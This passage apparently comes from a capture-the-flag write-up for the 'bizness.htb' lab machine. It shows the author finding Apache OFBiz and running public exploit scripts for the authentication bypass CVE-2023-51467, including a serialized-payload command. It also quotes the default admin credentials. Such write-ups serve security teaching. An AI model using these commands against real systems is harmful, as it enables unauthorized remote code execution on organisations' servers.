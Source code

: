 ```
```

None worked, I knew this was an important step and I was missing something vital by not having the directories enumerated. But I did not want to get a hint just yet.

\
Browsing around on the website, I noticed Apahce OFBiz Powers the website at the footer. I did some research. It appears that Apache OFBiz is an open source enterprise resource planning (ERP) system. This seems important. So let's google dork for any vulnerabilities.

The first vulnerability I find is CVE-2023-51467. This vulnerability permits attackers to circumvent authentication processes, enabling them to remotely execute arbitrary code (RCE).

{% embed url="https://github.com/Chocapikk/CVE-2023-51467" %}

Following the GitHub installation and usage, I scanned the target and determined it was vulnerable. We can tell this because, in the GitHub instructions, the script returns the Response `PONG` if the target is vulnerable to CVE-2023-51467.

```
-[~/.venv/CVE-2023-51467]$ python exploit.py -u http://bizness.htb
[18:58:49] Vulnerable URL found: http://bizness.htb, Response: PONG                                              exploit.py:53
|████████████████████████████████████████| 1/1 [100%] in 1.1s (0.90/s) 

```

### Initial Foothold - Exploitation

Now that it is vulnerable, I use another GitHub script I found to exploit the vulnerability:

{% embed url="https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass" %}

```
[Tue Feb 27-19:08:01]-[table@parrot]-
-[~/Apache-OFBiz-Authentication-Bypass]$ python3 exploit.py --url https://bizness.htb:443 --cmd 'CMD'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

In the exploit, I noticed the script was directed to the `/webtools/control/main` in Apache OFBiz. I see this on `https://bizness.htb/webtools/control/main`:

```
    Web Tools Main Page
    default


For something interesting make sure you are logged in, try username: admin, password: ofbiz.

NOTE: If you have not already run the installation data loading script, from the ofbiz home directory run "gradlew loadAll" or "java -jar build/libs/ofbiz.jar -l"

Login

```
